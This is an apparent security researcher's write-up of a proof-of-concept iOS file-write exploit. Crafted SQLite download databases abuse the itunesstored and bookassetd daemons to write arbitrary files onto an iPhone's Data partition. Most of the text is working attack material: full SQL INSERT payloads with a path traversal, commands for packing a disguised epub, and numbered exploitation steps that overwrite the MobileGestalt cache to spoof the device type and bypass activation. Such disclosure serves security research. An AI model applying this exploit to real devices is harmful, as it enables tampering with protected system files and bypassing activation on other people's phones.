

Read this post on your own risk! The information is based on my own research and my (not-so-good-yet) reverse engineering skills. Thus, this write-up might be incorrect, contains mistakes and turn out partially or completely wrong! Do not trust it blindly and DYOR :\)

# POC

A malicious crafted downloads.28.sqlitedb database can modify files on the Data partition (`/private/var/`), even system preferences and Caches which are usually not allowed to be modified.

### Device compatibility

The POC is working on any iPhone and iPad running the latest iOS Version 26.2b1 or earlier.

In our test case, we are using an iPhone 12 running iOS 26.0.1. We will write a patched file to `/private/var/containers/Shared/SystemGroup/`
`systemgroup.com.apple.mobilegestaltcache/Library/Caches/com.apple.MobileGestalt.plist` which will hactivate the device and set it's device type to iPod9,1 (iPod touch 7) for demo purposes that the exploit worked successfully.


### File requirements

In order to exploit this poc, we need several requirements:

- Malicious `downloads.28.sqlitedb` Database (Stage1)
- Malicious `BLDatabaseManager.sqlite` Database (Stage2)
- Target file we wanna write, packed in `epub` format.
- Server to host following files:
    - `BLDatabaseManager.sqlite`
    - `iTunesMetadata.plist`
    - The target file we wanna write. This can be any file owned by `mobile` in the Data partition of the device.

# Expected results

The download task is stopped based on unauthorized destination path.

# Actual results

The file writes are allowed, unless the destination path is controlled by root, then it will fail to write the file. But most files and file paths owned by mobile are allowed to write using this POC.

### Writable filepaths

`/private/var/containers/Shared/SystemGroup/systemgroup.com.apple.mobilegestaltcache/Library/[...]`

`/private/var/mobile/Library/FairPlay/[...]`

`/private/var/mobile/Media/[...]`

`/var/mobile/[...]`

`More ...`

### Stage1 - `downloads.28.sqlitedb`

In our downloads.28 database, we find several tables - of special interest is the table `asset` which can download to various paths in the file system.

It is managed by `itunesstored` and we are therefore limited to the sandbox permissions of this daemon.

For example it **can’t** **write** to `/private/var/containers/Shared/SystemGroup/systemgroup.com.apple.mobilegestaltcache`
`/Library/Caches/com.apple.MobileGestalt.plist`

but it can write to our stage2, 

`/private/var/containers/Shared/SystemGroup/<some_UUID_here>/`
`Documents/BLDatabaseManager/BLDatabaseManager.sqlite`

In order to download a file to the said path, we just need to add a new entry to our downloads.28 Database, following SQL command will do the job:

```bash
INSERT INTO "main"."asset" ("pid", "download_id", "asset_order", "asset_type", "bytes_total", "url", "local_path", "destination_url", "path_extension", "retry_count", "http_method", "initial_odr_size", "is_discretionary", "is_downloaded", "is_drm_free", "is_external", "is_hls", "is_local_cache_server", "is_zip_streamable", "processing_types", "video_dimensions", "timeout_interval", "store_flavor", "download_token", "blocked_reason", "avfoundation_blocked", "service_type", "protection_type", "store_download_key", "etag", "bytes_to_hash", "hash_type", "server_guid", "file_protection", "variant_id", "hash_array", "http_headers", "request_parameters", "body_data", "body_data_file_path", "sinfs_data", "dpinfo_data", "uncompressed_size", "url_session_task_id") VALUES (1234567890, 6936249076851270150, 0, 'media', NULL, 'https://<url_domain_here>/fileprovider.php?type=sqlite', '/private/var/containers/Shared/SystemGroup/0DAF9578-C293-4C5D-9CF4-21E78AE8E372/Documents/BLDatabaseManager/BLDatabaseManager.sqlite', NULL, 'epub', 6, 'GET', NULL, 0, 0, 0, 1, 0, 0, 0, 0, NULL, 60, NULL, 466440000, 0, 0, 0, 0, '', NULL, NULL, 0, NULL, NULL, NULL, X'62706c6973743030a1015f10203661383338316461303164646263393339653733643131303036326266633566080a000000000000010100000000000000020000000000000000000000000000002d', NULL, NULL, NULL, NULL, NULL, NULL, 0, 1);
```

### Stage2 - `BLDatabaseManager.sqlite`

This database is managed by `bookassetd`, another daemon which is responsible for downloading and management of the iBooks on our idevice. It’s sandbox permissions are wider, it can write to most files owned by `mobile` in the Data partition.

In our case, we will write a file to `/var/containers/Shared/SystemGroup/systemgroup.com.apple.mobilegestaltcache/`
`Library/Caches/com.apple.MobileGestalt.plist`

To download the file there, we go into our `BLDatabaseManager.sqlite` Database and add the following row to `ZBDOWNLOADINFO` table:

```bash
INSERT INTO "ZBLDOWNLOADINFO" ("Z_PK", "Z_ENT", "Z_OPT", "ZACCOUNTIDENTIFIER", "ZCLEANUPPENDING", "ZFAMILYACCOUNTIDENTIFIER", "ZISAUTOMATICDOWNLOAD", "ZISLOCALCACHESERVER", "ZISPURCHASE", "ZISRESTORE", "ZISSAMPLE", "ZISZIPSTREAMABLE", "ZNUMBEROFBYTESTOHASH", "ZPERSISTENTIDENTIFIER", "ZPUBLICATIONVERSION", "ZSERVERNUMBEROFBYTESTOHASH", "ZSIZE", "ZSTATE", "ZSTOREIDENTIFIER", "ZSTOREPLAYLISTIDENTIFIER", "ZLASTSTATECHANGETIME", "ZPURCHASEDATE", "ZSTARTTIME", "ZARTISTNAME", "ZARTWORKPATH", "ZASSETPATH", "ZBUYPARAMETERS", "ZCANCELDOWNLOADURL", "ZCLIENTIDENTIFIER", "ZCOLLECTIONARTISTNAME", "ZCOLLECTIONTITLE", "ZDOWNLOADID", "ZDOWNLOADKEY", "ZENCRYPTIONKEY", "ZEPUBRIGHTSPATH", "ZFILEEXTENSION", "ZGENRE", "ZHASHTYPE", "ZKIND", "ZMD5HASHSTRINGS", "ZORIGINALURL", "ZPERMLINK", "ZPLISTPATH", "ZSALT", "ZSUBTITLE", "ZTHUMBNAILIMAGEURL", "ZTITLE", "ZTRANSACTIONIDENTIFIER", "ZURL", "ZRACGUID", "ZDPINFO", "ZSINFDATA", "ZFILEATTRIBUTES") VALUES
('1', '2', '3', '0', '0', '0', '0', '', NULL, NULL, NULL, NULL, '0', '0', '0', NULL, '4648', '2', '765107108', NULL, '767991550.119197', NULL, '767991353.245275', NULL, NULL, '/private/var/mobile/Media/Books/asset.epub', 'productType=PUB&price=0&salableAdamId=765107106&pricingParameters=PLUS&pg=default&mtApp=com.apple.iBooks&mtEventTime=1746298553233&mtOsVersion=18.4.1&mtPageId=SearchIncrementalTopResults&mtPageType=Search&mtPageContext=search&mtTopic=xp_amp_bookstore&mtRequestId=35276ff6-5c8b-4136-894e-b6d8fc7677b3', 'https://p19-buy.itunes.apple.com/WebObjects/MZFastFinance.woa/wa/songDownloadDone?download-id=J19N_PUB_190099164604738&cancel=1', '4GG2695MJK.com.apple.iBooks', 'Sebastian Saenz', 'Cartas de Amor a la Luna', '../../../../../../private/var/containers/Shared/SystemGroup/systemgroup.com.apple.mobilegestaltcache/Library', NULL, NULL, NULL, NULL, 'Contemporary Romance', NULL, 'ebook', NULL, NULL, NULL, '/private/var/mobile/Media/Books/iTunesMetadata.plist', NULL, 'Cartas de Amor a la Luna', 'https://<url_domain_here>/fileprovider.php?type=gestalt', 'Cartas de Amor a la Luna', 'J19N_PUB_190099164604738', 'https://<url_domain_here>/fileprovider.php?type=gestalt2', NULL, NULL, NULL, NULL);
```

### The target files - EPUB format

In order to successfully write files, the files need to have the correct format.

The usual structure looks like this:

```bash
mybook/
├── mimetype
├── META-INF/
│   └── container.xml
└── OEBPS/
    ├── content.opf
    ├── nav.xhtml
    └── chapter1.xhtml
```

In our case, we modify the structure a little bit like this:

```bash
Caches/
├── mimetype
└── com.apple.MobileGestalt.plist
```

When zipping this, we need to make sure the `mimetype` is not compressed.

We can do it like this:

```bash
zip -X0 hax.epub Caches/mimetype
zip -Xr9D hax.epub Caches/com.apple.MobileGestalt.plist
```

The resulting file is ready to be placed on server to be downloaded using the BLDatabaseManager to the destination path.

### The Exploitation

1. Start the device, connect to a stable WiFi network with internet access.
2. Modify the `downloads.28.sqlitedb` database with the correct path to BLDatabaseManager. We need to find the correct UUID here for the path. This can be obtained by fetching the device logarchive with command `pymobiledevice3 syslog collect logs.logarchive`.
The resulting file can be opened in the `Console.app` on mac and we can find the path easily by searching for “BLDatabase”. 
    `info	2025-10-20 22:43:29.111433 +0200	bookassetd	[Database]: Store is at file:///private/var/containers/Shared/SystemGroup/<UUID_HERE>/`
    `Documents/BLDatabaseManager/BLDatabaseManager.sqlite` 
    ***When found, replace the path in the database with the correct one.***

3. First delete all files from the folder `/var/mobile/Media/Downloads`
4. Place the crafted `downloads.28.sqlitedb` to `/var/mobile/Media/Downloads/downloads.28.sqlitedb` , this can be done from any Apple File Conduit (afc) client like 3uTools, [i4.cn](http://i4.cn) or using afcclient commandline tool https://github.com/emonti/afcclient/tree/master
5. Reboot the device
After the reboot, a file in `/var/mobile/Media/iTunes_Control/iTunes/iTunesMetadata.plist` should appear, this means the first stage worked.
6. Copy this `/var/mobile/Media/iTunes_Control/iTunes/iTunesMetadata.plist` into `/var/mobile/Media/Books/iTunesMetadata.plist`.
7. Reboot again.
After the reboot, there should appear some new files in the folder `/var/mobile/Media/Books/asset.epub`.
The file `/var/mobile/Media/Books/iTunesMetadata.plist` should be gone, just add it again.
8. Reboot again. 
9. Modifications should be written successfully. 



The basic files for exploitation you can find [here](https://github.com/hanakim3945/bl_sbx)

## Disclaimer

This writeup is for **educational purposes only**.

- Do **not** use this for illegal activities.
- Apple may patch this behavior at any time.


© 2025  ~ Hana Kim